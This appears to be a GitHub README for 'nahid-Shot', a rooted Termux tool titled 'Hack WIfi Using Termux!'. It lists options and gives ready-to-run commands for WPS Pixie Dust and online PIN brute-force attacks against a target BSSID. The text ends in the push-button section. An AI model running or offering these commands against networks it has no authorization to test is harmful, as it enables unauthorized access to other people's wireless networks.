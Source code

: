 ## [Termux](https://termux.com/)
Please note that root access is required.  


### Hack WIfi Using Termux! (Requires Root)
**SCREEN SHOTS [Termux]**

<br>
<p align="center">
<img width="50%" src="https://i.postimg.cc/fbzJnQL6/Screenshot-20231026-084714-Termux.png"/>
<img width="46%" src="https://i.postimg.cc/MKhWpDTR/Screenshot-20231029-202035-Termux.png"/>
</p>

# Usage
```
 nahid-Shot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```
#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
cd nahid-Shot && sudo python3 nahid-Shot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
cd nahid-Shot && sudo python3 nahid-Shot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
cd nahid-Shot && sudo python3 nahid-Shot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s